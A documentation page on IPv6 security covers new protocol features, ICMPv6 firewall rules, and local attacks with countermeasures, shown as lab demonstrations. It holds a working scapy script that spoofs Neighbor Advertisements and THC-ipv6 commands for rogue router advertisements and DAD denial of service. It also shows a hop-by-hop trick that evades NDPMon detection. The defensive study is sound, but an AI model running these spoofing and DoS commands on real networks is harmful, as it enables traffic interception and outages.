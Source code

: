 =============
IPv6 security
=============

--------------------
Something about IPv6
--------------------

- IPv6 development started in the early 1990 with few focus on security;
- Some IPv4 well known security breaches like arp poisoning, address spoofing, 
  etc. have their correspondent on IPv6;
- Some new IPv6 features create new vulnerabilities as well as transition process;
- There are already many IPv6 hacking tools available for anyone on the Internet;
- IPv6 deployment is still slow and vulnerabilities are not yet widely shared, 
  but this scenario is about to change.


It should be very easy to turn on IPv6 support and enable it to work, that
was the core idea of IPv6. You don't need dhcp anymore, everyone gets IPv6
address for free and basically everything gets configured automatically.
That's for client, but what should we do for router to make it work?

Well it turns out if you do that, you will be mostly very insecure. Not
only that some old attacks affect you, but there are also new attacks that
affect ipv6 users. To make ipv6 secure you must configure it corretly and
test configurations.


-----------------------------------------------    
New IPv6 features and related security problems
-----------------------------------------------

**1.Larger Adress Space:**

    end to end architecture allowing full tracking and some applications 
    that were impossible with IPv4 and NAT, which changes the way network
    scanning and reconnaisance works. New BOGON threats.
    
    "Bogon filtering is the practice of filtering bogons, which are bogus
    IP addresses. Bogon is also an informal name for an IP packet on the public
    Internet that claims to be from an area of the IP address space reserved,
    but not yet allocated or delegated by the Internet Assigned Numbers Authority
    (IANA) or a delegated Regional Internet Registry (RIR). The areas of
    unallocated address space are called the bogon space."

**2.Enhanced Header:**

    simpler and more efficient header with 40 fixed bytes and adds the
    possibility of extension headers which leads to vulnerabilities related
    to them, opening new venues for attacks.

**3. Improved ICMP (ICMPv6) and Multicast management:**

    increased efficiency, allows auto-configuration, neighborhood discovery
    and multicast group management. No authentication can lead to different
    older attacks and new ones. Multicast capabilities can be exploited to
    gather network informations (reconnaissance).

**4. Auto configuration:**

    makes end user configuration easier. A very useful feature for a "tipical"
    computer user, who wants automatization. That also makes end users exposed
    to certain malicious attacks, specially at public locations.

**5. Fragmentation only at source:**

    data transmission are more efficient and have less overhead on intermediary
    routers. That makes ICMPv6 control more difficult, which leads to new
    attacks based on forged ICMPv6 messages.

**6. Mobility support:**

    mobility support integrated in the protocol allows nomadic and roaming
    applications. That means we get new connection interceptions with new
    man-in-the-middle and DOS (denial of service) attacks.

**7. IPv4 to IPv6 transition**

    since IPv4 is said to be used for at least 20 more years, transitioning
    from IPv4 to IPv6 means that most systems will have to run both and also
    use several tunneling techniques, meaning network adiminstrators have to
    put more effort in configuring the network which means more chance of
    having security holes, leading to possible new exploits and attacks.

--------------------------------------------
Get rid of the nat, it's time for firewalls!
--------------------------------------------

With ipv6 we get rid of NAT and all your devices have a public ipv6 address.
But if nat presented security feature in ipv4 networks, now you have to configure
your firewall, and configure it correctly. You have to make sure what you will
let in your network. 

First things first, let's make something clear. We will only let some kind of traffic
inside out network. That's gona be TCP, UDP and some ICMPv6 types. It's very
important which ICMPv6 packets you let in, because as we will see later ICMPv6
has gained much signifficant role in ipv6.

________________
Firewalling IPv6
________________

There's nothing special about firewalling ip layer, except now you will have to
filter all traffic to all hosts on your network.

Besides that, make sure to filter RH0 header, and i will copy-paste article 
why, taken form `here <http://www.deployingipv6.net/index.php/archives/2007/06/03/rh0/>`_::

    There’s been rather a lot of talk about RH0, that’s IPv6’s type 0 routing header. 
    Broadly speaking, the header allowed you to list a set of places that the 
    packet should go to before its final destination. In the book we commented 
    that source routing used to be a security hot button in IPv4, when 
    authentication based on source IPv4 address was common and packet filtering 
    was not. 

    The problems that we were thinking of were discussed at least going back to 
    the in the mid 90s, and related to source routing allowing any host on the 
    Internet to impersonate any other host and get the returned packets. Usually 
    someone who is doing IP spoofing is making a blind attack, because the replies 
    to the packets that they sent would not be routed back to them. With source 
    routing, some IP stacks would reverse the route for the returned packets, 
    allowing the attacker to get their hands on the replies. With network services 
    like rlogin being common, this was a big threat.

    Some other firewall evasion attacks were also possible with source routed 
    packets, but I think the IP spoofing attacks were most prominent in people’s 
    minds.

    It seems that IPv6 source routing has become a security hot button, but for 
    a slightly different reason. As far as I know, no IPv6 stacks ever reversed 
    the route, so the IP spoofing attacks have never been possible. The firewall 
    evasion attacks are still there, which I don’t think surprised anyone. However, 
    the attacks that caused RH0 to make the press are amplification attacks. 
    The attacks were demonstrated by Philippe Biondi and Arnaud Ebalard and a 
    nice summary was written by Geoff Huston.

    Interest in amplification attacks has grown since attacks like the smurf 
    attack appeared sometime around 1997 and particularly since denial of service 
    attacks became big news. I’m not sure that when the original problems with 
    IPv4 source routing were being discussed that amplification attacks were 
    really considered seriously. I think the full impact of amplification attacks 
    in the modern Internet, particularly with the proliferation of botnets, is 
    yet to fully understood.

    The outcome for IPv6 is that RH0 is now treated as a unknown header by many 
    IPv6 implementations, and will probably be formally retired by the IETF shortly. 
    Other types of routing header (particularly RH2, which is used by Mobile IPv6) 
    should continue to be operate normally, as they do not pose the same risks. 
    I think the remaining interesting question is how do we design a version of 
    RH0 which is both safe and useful.

__________________
Firewalling ICMPv6
__________________

:term:`ICMPv6 types` that should be accepted originating and going to the internet 
are following:

+----------------------------------------------+--------------------------------------------------------------------+
| Type                                         | Code                                                               |
+---------+------------------------------------+-------+------------------------------------------------------------+
| Value   | Meaning                            | Value | Meaning                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Error Messages                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    1    | Destination Unreachable            |   0   | no route to destination                                    |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | communication with destination administratively prohibited |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | beyond scope of source address                             |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   3   | address unreachable                                        |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   4   | port unreachable                                           |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   5   | source address failed ingress/egress policy                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   6   | reject route to destination                                |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   7   | Error in Source Routing Header                             |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    2    | Packet too big                     |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    3    | Time Exceeded                      |   0   | hop limit exceeded in transit                              |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | fragment reassembly time exceeded                          |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    4    | Parameter Problem                  |   0   | erroneous header field encountered                         |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   1   | unrecognized Next Header type encountered                  |
|         |                                    +-------+------------------------------------------------------------+
|         |                                    |   2   | unrecognized IPv6 option encountered                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    128  | Echo request                       |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    129  | Echo reply                         |   0   |                                                            |
+---------+------------------------------------+-------+------------------------------------------------------------+

Everything else must get dropped!

On the local network the following additional ICMPv6 messages must be accepted:

+---------+------------------------------------+-------+------------------------------------------------------------+
|                                  ICMPv6 Informational Messages                                                    |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    133  | Router Solicitation (NDP)          |   0   | From hosts to router                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    134  | Router Advertisement (NDP)         |   0   | From router to hosts                                       |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    135  | Neighbor Solicitation (NDP)        |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    136  | Neighbor Advertisement (NDP)       |   0   | Betwene hosts                                              |
+---------+------------------------------------+-------+------------------------------------------------------------+
|    137  | Redirect Message (NDP)             |   0   | From router to hosts, only if there are multiple routers   |
+---------+------------------------------------+-------+------------------------------------------------------------+

------------------------------
IPv6, ICMPv6 and local attacks
------------------------------

With ipv6 icmp has gained much signifficant role, because it's not only
used for error control and flow control like in ipv4, but it has also replaced
functionality that arp used to handle. 
Fragmentation, Neighbor Discovery, and StateLess Address AutoConfiguration 
(SLAAC) represent essential functionality which is now performed using ICMP messages. 
At the same time ICMP messages are designed to be sent to multicast addresses 
instead of unicast addresses.

There are roughly several actions that could be taken to protect agains attackers
abusing ICMPv6:

* Configure firewall correctly to protect agains malicious ICMPv6 messages,
  this is important for all kinds of environments, because this layer
  of security newer hurts, but will in most cases save your ass.
* Use :term:`IPSec`, this is especially feasible for production environemnts.
* Use :term:`SEnD` mechanism instead of pure :term:`NDP` without using IPSec. 
  SEnD uses RSA key pairs instead of IPSec to secure various ICMP messages.
  Implementing this mechanism could be difficult, because not all devices support
  it, but is again feasible for production environemnts.
* Use "intelligent" deprecation tool like `NDPMon <http://ndpmon.sourceforge.net>`_.
* Enable ipv6 privacy extensions on hosts using your network.

Most of the :term:`THC-ipv6` tools are ment especially for pentesting ICMPv6 security.

In this section we will present several possible attacks inside ipv6 networks and
needed actions to prevent against. Also some tests will be written latter
to garantee that speciffic network is secure against those attacks.

__________________________________________________________________________
Icmp :term:`Neighbor Solicitation`/:term:`Neighbor Advertisement` spoofing
__________________________________________________________________________

**Description**

.. image:: _static/NAspoofing.png

The ICMP router discovery messages are called :term:`Router Advertisement`
and :term:`Router Solicitation`. Each router periodically multicasts a 
Router Advertisement from each of its multicast interfaces, 
announcing the IP address(es) of that interface. Hosts discover the 
addresses of their neighboring routers simply by listening for 
advertisements. When a host attached to a multicast link starts up, 
it may multicast a Router Solicitation to ask for immediate advertisements, 
rather than waiting for the next periodic ones to arrive; 
if (and only if) no advertisements are forthcoming, the host may retransmit 
the solicitation a small number of times, but then must desist from 
sending any more solicitations. Any routers that subsequently start up, 
or that were not discovered because of packet loss or temporary link 
partitioning, are eventually discovered by reception of their periodic 
(unsolicited) advertisements.

Attacker is able to redirect all local traffic to your own system by answering 
falsely to :term:`Neighbor Solicitation` requests.

**Attack**

There's quite easy to perfrorm this attack. Well you can use :term:`THC-ipv6` 
parasite6 tool, but we will look up how you can craft up required packets by hand.

What you need to do is create :term:`Neighbor Advertisement` packet with spoofed
mac address. To know whom to spoof you just need to wait for :term:`Neighbor Solicitation`
multicast messages from other hosts on the network.

Here is an example of crafting fake :term:`Neighbor Advertisement` using :term:`scapy`::

    >>> ls(Ether)
    dst        : DestMACField         = (None)
    src        : SourceMACField       = (None)
    type       : XShortEnumField      = (0)
    >>> ether=(Ether(dst='08:00:27:ad:c8:30', src='ba:2d:7e:de:15:c6'))
    >>> ls(IPv6)
    version    : BitField             = (6)
    tc         : BitField             = (0)
    fl         : BitField             = (0)
    plen       : ShortField           = (None)
    nh         : ByteEnumField        = (59)
    hlim       : ByteField            = (64)
    src        : SourceIP6Field       = (None)
    dst        : IP6Field             = ('::1')
    >>> ipv6=IPv6(src='fe80::a00:27ff:fedb:225c', dst='fe80::a00:27ff:fead:c830')
    >>> ls(ICMPv6ND_NA)
    type       : ByteEnumField        = (136)
    code       : ByteField            = (0)
    cksum      : XShortField          = (None)
    R          : BitField             = (1)
    S          : BitField             = (0)
    O          : BitField             = (1)
    res        : XBitField            = (0)
    tgt        : IP6Field             = ('::')
    >>> na=ICMPv6ND_NA(tgt='fe80::a00:27ff:fedb:225c', R=0)
    >>> ls(ICMPv6NDOptDstLLAddr)
    type       : ByteField            = (2)
    len        : ByteField            = (1)
    lladdr     : MACField             = ('00:00:00:00:00:00')
    >>> lla=ICMPv6NDOptDstLLAddr(lladdr='ba:2d:7e:de:15:c6')
    >>> packet = ether/ipv6/na/lla

Now we send this packet and at the same time at the victim machine we monitor
neighbours on link::

    >>> sendp(packet, iface='priv', loop=1, inter=5)

Before the attack router's mac is not redirected to attacker::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr 08:00:27:db:22:5c router STALE

After a few seconds of sending spoofed :term:`Neighbor Advertisement` packets,
mac address for router gets changed::

    vagrant@priv:~$ ip -6 neigh show
    fe80::a00:27ff:fedb:225c dev eth1 lladdr ba:2d:7e:de:15:c6 STALE

**Countermeasures**

It's not easy to prevent against this kind of attacks, but there still exists
some security measures like:

* Enter static mac addresses of routers

    This is especially usefull on managed environemnts. Setting static mac
    addresses will ensure that they won't get overwritten by attacker sending 
    bogous :term:`Neighbor Advertisement` messages. 

    To set static router MAC addresses on linux you can use following command::

        vagrant@priv:~$ sudo ip -6 neigh replace fe80::MAC lladdr MAC nud permanent dev device

    Neighbour entry is now permanent and :term:`NDP` can't change it, however
    communication betwene host on the network can still get redirected over
    attacker.

* Use :term:`SeND` or :term:`CGA`

    :term:`SeND` is using :term:`CGA` (Cryptographically Generated Address)
    which makes shure that :term:`Neighbor Advertisement` messages are authentic.

    There exists opensource solution called 
    `NDProtector <http://amnesiak.org/NDprotector/>`_, which implements :term:`CGA`
    in userspace.

    .. note:: 

        :term:`CGA` is not wildly deployed and no production read software exists for
        some operating systems, so it is advised not to use it, yet.

* Tunneling solutions like :term:`IPSec` should be used, but they 
are not wildly deployed.

_____________________________________
:term:`Router advertisement` spoofing
_____________________________________

  **Description**

  When host connects to ipv6 network it usually sends :term:`Router Solicitation`
  to find about active routers in the network on multicast address. Router sends
  periodicly or demand :term:`Router Advertisement` messsages, to inform hosts
  about:

    * IPv6 address prefix (so they can configure their address)
    * DNS server
    * MTU size
    * Should hosts go look for a DHCPv6 server or not
    * NTP server address

  Attacker can spoof :term:`Router Advertisement` messages and perform some pretty
  nasty attacks.

  **Attacks**

  * :term:`Router Advertisement` fake router

    .. image:: _static/RAspoofing.png

    This attack spoofs :term:`Router Advertisement` messsages and tries to become
    router with highest priority.

    :term:`THC-ipv6` tool fake_router6 performs this attack. You can try it with
    these simple commands::

        (ethertest)offlinehacker@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    We can quickly see spoofed messages in wireshark and after few moments default
    route on victim gets poisoned with new entry::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    If we ping some external address like 2001:db8::fffe, we can quickly see
    that packets gets routed via attacker.

  * :term:`Router Advertisement` flood

    .. image:: _static/RAflood.png

    Hosts like Windows XP, 2003, Vista, 7, and 2003 don’t set a limit on the 
    amount of routers they like to listen to.  Whereas in Linux and Mac they 
    set their limit at right around 15.  If there are more than 15 different 
    RAs coming at them, they stop configuring the address and routes.

    If you send millions of RAs different IPv6 source addresses with different 
    IPv6 prefixes, you can, in a matter of seconds turn a fully functioning 
    Windows machine into a brick.

    :term:`THC-ipv6` tool flood_router6 does exactly that. There's a nice video
    demonstrating this attack avalible at 
    `http://www.youtube.com/watch?v=1EAnjZqXK9E <http://www.youtube.com/watch?v=1EAnjZqXK9E&feature=player_embedded>`_.

  **Countermeasures**

  :rfc:`6104` describes what we can do to prevent :term:`Router Advertisement` 
  spoofing:

  * Implement RA snooping

    Idea is that RAs observed from incorrect sources are blocked or dropped, 
    and not propagated through a subnet. One candidate solution in this space, 
    called "RA-Guard" proposed in :rfc:`6105`.

    .. note:

        This type of solution may not be applicable everywhere, e.g., in environments 
        where there are not centrally controlled or manageable switches.

    `Well it turns out that writing efficient RA guard is not that simple. <http://tachyondynamics.com/blog/?p=27>`_
    There are different evaison techniques, and one of interseting is by
    using fragmentation and putting :term:`Router Advertisement` right behind 
    destintion option header and inside fragmentation header. Once the destination 
    recives this packet (as by design) it puts the packet back together and sees 
    it as an IPv6 RA. 
    However, Destination Options are not meant to be read by intermediate 
    devices like firewalls and/or routers, and that is why the ease of evasion.

    .. image:: _static/2nd-technique-672px.gif

  * SEcure Neighbor Discovery (:term:`SeND`)

  * Using Host-Based Packet Filters

    In a managed environment, hosts could be configured via their
    "personal firewall" to only accept RAs from trusted sources.  Hosts
    could also potentially be configured to discard 6to4-based RAs in a
    managed enterprise environment.

  * Adding Default Gateway/Prefix Options to DHCPv6

    Adding Default Gateway and Prefix options for DHCPv6 would allow
    network administrators to configure hosts to only use DHCPv6 for
    default gateway and prefix configuration in managed networks, where
    RAs would be required today.  A new document has proposed such a
    default router option, along with prefix advertisement options for
    DHCPv6. Even with such options added to DHCPv6,
    an RA is in principle still required to inform hosts to use DHCPv6.

    An advantage of DHCPv6 is that should an error be introduced, only
    hosts that have refreshed their DHCP information since that time are
    affected, while a multicast rogue RA will most likely affect all
    hosts immediately.  DHCPv6 also allows different answers to be given
    to different hosts.

    While making host configuration possible via DHCPv6 alone is a viable
    option that would allow IPv6 configuration to be done in a way
    similar to IPv4 today, the problem has only been shifted: rather than
    rogue RAs being the problem, rogue DHCPv6 servers would be an
    equivalent issue. As with IPv4, a network would then still require
    use of Authenticated DHCP, or DHCP(v6) snooping.

    There is certainly some demand in the community for DHCPv6-only host
    configuration. While this may mitigate the rogue RA issue, it simply
    moves the trust problem elsewhere, albeit to a place administrators
    are familiar with today.

  * Different Tunneling solutions

    Usage of :term:`IPSec`, 802.1X and similar should give you another
    layer of protection, but will cost you performance.

  * Using an "Intelligent" Deprecation Tool

    It is possible to run a daemon on a link (perhaps on the router on
    the link) to watch for incorrect RAs and to send a deprecating RA
    with a router lifetime of zero when such an RA is observed.

    .. note::

        `NDPMon <http://ndpmon.sourceforge.net/>`_ is opensource tool that
        detects anomalies in ICMPv6 and can perform actions, like sending
        mail to administrator or similar.

  **Trying out NDPMon**

    We tried out how `NDPMon <http://ndpmon.sourceforge.net/>`_ performs
    ad "Intelligent" Deprecation tool.
    It should be easy to setup, and it should learn itself which hosts are
    routers and wich hosts are the neighbours.
    
    Version provided by different linux distribution package managers is sometimes old,
    it's advised to build it from source. You can find instructions at
    `http://ndpmon.sourceforge.net/index.php?n=Doc.Installation http://ndpmon.sourceforge.net/index.php?n=Doc.Installation`_.

    After you do that, you just need to configure it. Basicly you need to specify
    mac, link local addresses of your router interface and ipv6 network prefix::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <probes>
        <probe name="eth2" type="interface">
            <countermeasures_enabled>1<countermeasures_enabled>
        <routers>
            <router>
                <mac>08:00:27:db:22:5c</mac>
                <lla>fe80::a00:27ff:fedb:225c</lla>
                <param_curhoplimit>64</param_curhoplimit>
                <param_flags_reserved>0</param_flags_reserved>
                <param_router_lifetime>10800</param_router_lifetime>
                <param_reachable_timer>0</param_reachable_timer>
                <param_retrans_timer>0</param_retrans_timer>
                <param_mtu>0</param_mtu>
                <params_volatile>1</params_volatile>
                <addresses/>
                <prefixes>
                    <prefix>
                    <address>2001:db8:0:1::</address>
                    <mask>64</mask>
                    <param_flags_reserved>224</param_flags_reserved>
                    <param_valid_time>2592000</param_valid_time>
                    <param_preferred_time>604800</param_preferred_time>
                    </prefix>
                </prefixes>
            </router>
        </routers>
        </probe>
        </probes>
        [...]

    As you can see NDPMon can run it's probes on multiple interfaces, even on
    remote hosts.

    When there is no attacker NDPMon does not report any alert::

        vagrant@router:~$ sudo ndpmon
        ----- Initialization -----
        Reading configuration file: "/etc/ndpmon/config_ndpmon.xml" ...
        [settings] NDPMon general settings: {
            actions high priority {
                syslog
                no sendmail
                no pipe program
            }
            actions low priority {
                syslog
                no sendmail
                no pipe program
            }
            admin mail root@localhost
            ignor autoconf
            syslog facility LOG_LOCAL1
            no use reverse hostlookups
        }
        [parser] Finished reading the configuration.
        Reading neighbors file: "/var/local/lib/ndpmon/neighbor_list.xml" ...
        [parser] Finished reading the neighbor cache.
        ------------------

        [capture_pcap] Listening on interface eth2.
        ----- ND_ROUTER_ADVERT -----
        Reset timer for 8:0:27:db:22:5c fe80::a00:27ff:fedb:225c
        [parser] Writing cache...
        ------------------

    But if we want to advertise fake router, we can quickly notice new alerts::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 priv 2001:db8:0:1::/64

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        ------------------

    It would be fun to see what happens if we turn on countermeasures::

        vagrant@router:~$ cat /etc/ndpmon/config_ndpmon.xml

        [...]
        <countermeasures>
            <kill_illegitimate_router>RESPOND</kill_illegitimate_router>
            <kill_wrong_prefix>LAUNCH AFTER 10</kill_wrong_prefix>
            <propagate_router_params>CEASE AFTER 10</propagate_router_params>
            <propagate_router_dns>RESPOND</propagate_router_dns>
            <propagate_router_routes>RESPOND</propagate_router_routes>
            <propagate_neighbor_mac>RESPOND</propagate_neighbor_mac>
            <indicate_ndpmon_presence>SUPPRESS</indicate_ndpmon_presence>
        </countermeasures>
        [...]

    We start NDPMon with countermeasures enabled, and we can quickly see that
    they are pretty effective::

        ----- ND_ROUTER_ADVERT -----
        [alerts] Alert "wrong ipv6 router" raised on probe "eth2".
        [countermeasures]: Sent zero lifetime advertisement for illegitimate router.
        ------------------

        ---- ICMP packet ----
        [countermeasures]: Packet dropped as it is a NDPMon counter measure.
        ------------------
       
    As we can see packet is dropped on router and zero lifetime advertisement for
    illegitimate router is send. We can quickly notice that default gateway does
    not get poisoned::

        vagrant@router:~$ sudo ndpmon

        [...]
        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 86sec

    I was wondering if i could evade countermeasures if i turn on :term:`hop-by-hop`
    header using::

        root@ubuntu-dev:~/projects/ethertest# fake_router6 -H priv 2001:db8:0:1::/64
        Starting to advertise router 2001:db8:0:1:: (Press Control-C to end) ...

    Well surprisingly it turned out it worked, NDPMon didn't detect fake 
    :term:`Router Advertisement` packets anymore and i was happily able to poison
    ipv6 routes once again::

        vagrant@priv:~$ ip -6 route show
        2001:db8:0:1::/64 dev eth1  proto kernel  metric 256  expires 8590471sec
        fe80::/64 dev eth0  proto kernel  metric 256 
        fe80::/64 dev eth1  proto kernel  metric 256 
        default via fe80::a00:27ff:fedb:225c dev eth1  proto kernel  metric 1024  expires 67sec
        default via fe80::b82d:7eff:fede:15c6 dev eth1  proto kernel  metric 1024

    So it looks like NDPMon was not so affective after all and we can summarize
    that currently no effective opensource tool, besides tunneling mechanisms 
    exists that would protect against :term:`Router Advertisement` spoofing.

    .. note::

        NDPMon is not useless afterall, it is still able to identify and report
        about new hosts on a network and could be easyly used to monitor managed
        environemnts. At the same time smart attaker won't make any noise and
        only attack speciffic hosts on a switched networks and usually won't be
        detected.

_________________________________________
Denial of Service (DoS) with IP conflicts
_________________________________________

  **Description**
 
  Duplicate address detection (DAD) allows hosts to detect if some ipv6 address is
  already assigned when performing :term:`SLAAC`. The process can be described
  as following:

  1. Node tries to assign some address X to it's interface
  2. First it joins multicast group FF02::1 for add nodes and FF02::1:FF00:0:X
  3. It checks if there's any :term:`Neighbor Solicitation` query with same ip
  4. Then it sends :term:`Neighbor Solicitation` query with destination of
     FF02::1:FF00:0:X to ask if there's anybody with this ip on the network
  5. It checks for any :term:`Neighbor Advertisement` to address FF02::1

  In case of events 3 or 5, address is already taken, else node can use it.

  Well what happens if attacker allways responds to DAD with a positive, DDOS.

  **Attack**

  We will once again use `THC-ipc6` tool dos-new-ipv6::

    root@ubuntu-dev:~/projects/ethertest# dos-new-ip6 priv
    Started ICMP6 DAD Denial-of-Service (Press Control-C to end) ...
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as fe80::a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:f489:f23b:bb34:2a44
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:a00:27ff:fead:c830
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e470:b690:2817:cf15
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
    Spoofed packet for existing ip6 as 2001:db8:0:1:e82a:43ce:d93:c667
 
  As we can see host tried many times, but was unable to get ip. If we examine
  host ip configuration, ip is not assigned to interface::

    vagrant@priv:~$ ifconfig

    [...]
    eth1      Link encap:Ethernet  HWaddr 08:00:27:ad:c8:30  
            inet addr:10.1.0.18  Bcast:10.1.255.255  Mask:255.255.0.0
            inet6 addr: fe80::a00:27ff:fead:c830/64 Scope:Link
            UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
            RX packets:15677 errors:0 dropped:0 overruns:0 frame:0
            TX packets:1829 errors:0 dropped:0 overruns:0 carrier:0
            collisions:0 txqueuelen:1000 
            RX bytes:1615960 (1.6 MB)  TX bytes:188906 (188.9 KB)
    [...]

  **Countermeasures**

  This attack shares a lot in common with term :term:`Router Advertisement`
  spoofing, so similar methods for prevention could be used.

  .. note::

    We decided to try out what NDPMon says about this attack, if tool is able to
    detect it. It turned out it was useless.

* Denial of Service (DoS) with Neighbor floods

There are also some other local attacks that are possible, but like presented
there are no effective mechanism, besides different tunneling to prevent attacks 
inside ipv6 networks.

---------------------
Secure implementation
---------------------

We have tried to prevent these attacks and find out that only tunneling mechanisms
like :term:`IPSec` or link based authentication mechanisms like :term:`802.11q`
can protect agains local attacks. 

.. note::

    For demonstration there's avalible a secure implementation of network
    using :term:`IPSec` avalible :doc:`here <linux_standard_corporate>`
